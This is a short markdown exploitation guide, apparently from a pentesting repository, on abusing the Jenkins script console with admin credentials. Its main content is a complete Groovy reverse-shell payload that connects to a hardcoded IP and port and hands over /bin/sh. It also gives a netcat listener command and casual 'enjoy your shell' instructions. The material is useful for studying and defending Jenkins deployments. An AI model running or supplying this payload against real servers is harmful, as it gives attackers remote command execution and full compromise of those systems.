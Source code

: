 # Jenkins - Execute a script in the console

## Requirements

 - A valid **username and password** of a user with **admin rights** on the Jenkins.

## Exploitation

### Step 1: Access the Jenkins

First of all, you need to access the Jenkins with a user having **admin rights** on the Jenkins:

![](./imgs/welcome.png)

### Step 2: Access the script console

Then go in the Jenkins script console page:

![](./imgs/script_console.png)

### Step 3: Start a reverse shell

You can execute Groovy script in the Jenkins script console, so you can start a reverse shell! You can use the following payload (from here: [https://podalirius.net/en/articles/unix-reverse-shells-cheatsheet/#groovy](https://podalirius.net/en/articles/unix-reverse-shells-cheatsheet/#groovy)): 

```java
String host="192.168.1.27";
int port=4444;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](./imgs/reverse_shell.png)

### Step 3: Enjoy your shell

Now, prepare your listener with netcat (`nc -lvp <port>`) and enjoy your shell:

![](./imgs/shell.png)

### Demonstration

Here is a video walkthrough of this technique:

https://user-images.githubusercontent.com/79218792/168493712-3eb87dbc-68ae-4e9b-ba57-160f9fba37f1.mp4

## References
 - https://github.com/p0dalirius/LimeSurvey-plugin-webshell
